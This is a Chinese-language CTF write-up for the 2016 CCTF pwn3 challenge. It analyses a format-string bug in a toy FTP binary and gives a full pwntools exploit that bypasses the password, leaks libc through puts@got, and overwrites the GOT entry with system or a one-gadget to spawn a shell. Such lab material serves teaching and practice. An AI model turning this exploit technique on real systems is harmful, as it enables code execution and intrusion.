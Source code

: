 ```yaml
---

abbrlink: 
---
```

## 2016 CCTF pwn3

**考点：格式化字符串、hijack GOT、堆**

### 分析

#### 保护情况

32 位动态链接；打开 NX ；RELRO 部分保护，可以改 GOT 表地址

```shell
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
#### 漏洞函数

程序实现的输出功能存在格式化字符串漏洞。函数将内容写入到 dest 中，在用 printf 输出，而 dest 内容是可控的。

```c
int get_file()
{
  char dest; // [esp+1Ch] [ebp-FCh]
  char s1; // [esp+E4h] [ebp-34h]
  char *i; // [esp+10Ch] [ebp-Ch]

  printf("enter the file name you want to get:");
  __isoc99_scanf("%40s", &s1);
  if ( !strncmp(&s1, "flag", 4u) )
    puts("too young, too simple");
  for ( i = (char *)file_head; i; i = (char *)*((_DWORD *)i + 60) )
  {
    if ( !strcmp(i, &s1) )
    {
      strcpy(&dest, i + 40);
      return printf(&dest);//格式化字符串
    }
  }
  return printf(&dest);//格式化字符串
}
```

### 思路

整体攻击工程：

- 绕过密码
- 确定格式化字符串参数偏移
- 利用 put@got 获取 put 函数地址，进而获取对应的 libc.so 的版本，进而获取对应 system 函数地址。
- 修改 puts@got 的内容为 system 的地址。
- 当程序再次执行 puts 函数的时候，其实执行的是 system 函数。

#### 绕过密码

简单移位密码，移动位数是 1 。密文是：``sysbdmin``，对应明文是：``rxraclhm``。

```c
__isoc99_scanf("%40s", src);
for ( i = 0; i <= 39 && src[i]; ++i )
    ++src[i];
```

#### 确定格式化字符串参数偏移

我还是使用自己熟悉的方法泄露出地址（写一堆%p），懒得计算，偏移为 7 ：

![fmrstr_1.png](..\..\..\img\fmrstr_1.png)

#### 泄露 libc 地址

content 是存在堆中的，不是栈上的，也就搞不到栈上的 libc 函数地址，但是堆中内容是可控的，我们可以往里面写入 libc 函数地址，然后在读出来就行了。

```python
payload = "%8$s" + p32(puts_got)
creat('aaaa',payload)
show('aaaa')
puts_leak = u32(p.recv(4))
```

#### 修改 got 表

修改还是用的 格式化字符串 ，需要做的就是将 payload 写入到堆中，然后用程序的 get 功能触发漏洞。payload 的话可以用 pwntools 工具构建，32 位的问题不大，64 位的话我选择手动。

覆盖方式多种多样了，下面的是最后实现调用 ``system('/bin/sh')``：

```python
payload = fmtstr_payload(7, {puts_got: system})
creat('/bin/sh;', payload)		# write 2 chunk
show('/bin/sh;')				# overwrite puts@got 2 system@got
showlist()						# getshell
```

这个堆名要是 ``/binsh;`` ，/bin/sh 的话是 showlist 时作为 system 参数。``;`` 是用来分割前面我们用来泄露地址的堆名，如果不加最后构造出来是：``system('/bin/shaaaa')``

另外一种填充方式就是：将 puts@got 填充为 onegadget ，这样就不需要对堆名有要求了。

```python
payload = fmtstr_payload(7, {puts_got: onegadget})
creat('bbbb', payload)
show('bbbb')
```

### exp

```exp
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe
# @Email   : skye231@foxmail.com
# @File    : pwn3.py
from pwn import *
context.log_level = 'debug'

p = process("./pwn3")
elf = ELF("./pwn3")
libc = ELF("./libc.so")

def creat(name,content):
    p.recvuntil("ftp>")
    p.sendline("put")
    p.recvuntil("upload:")
    p.sendline(name)
    p.recvuntil("content:")
    p.sendline(content)
def show(name):
    p.recvuntil("ftp>")
    p.sendline("get")
    p.recvuntil("get:")
    p.sendline(name)
def showlist():
    p.recvuntil("ftp>")
    p.sendline("dir")

name = "rxraclhm"
puts_got = elf.got['puts']
log.info("puts_got:"+hex(puts_got))

p.recvuntil("Rainism):")
p.sendline(name)

# leak libc
payload = "%8$s" + p32(puts_got)
creat('aaaa',payload)
show('aaaa')

puts_leak = u32(p.recv(4))
log.info("puts_leak:"+hex(puts_leak))
libc_base = puts_leak - libc.symbols['puts']
log.info("libc_base:"+hex(libc_base))
system = libc_base + libc.symbols['system']
log.info("system:"+hex(system))
binsh = libc_base + libc.search('/bin/sh').next()
log.info("binsh:"+hex(binsh))
onegadget = libc_base + 0x3ac62
log.info("onegadget:"+hex(onegadget))

# 1:overcover puts@got 2 system@got

#payload = fmtstr_payload(7, {puts_got: system})
#creat('/bin/sh;', payload)
#show('/bin/sh;')
#showlist()

# 2:overcover puts@got 2 onegadget
payload = fmtstr_payload(7, {puts_got: onegadget})
creat('bbbb', payload)
show('bbbb')

p.interactive()
```



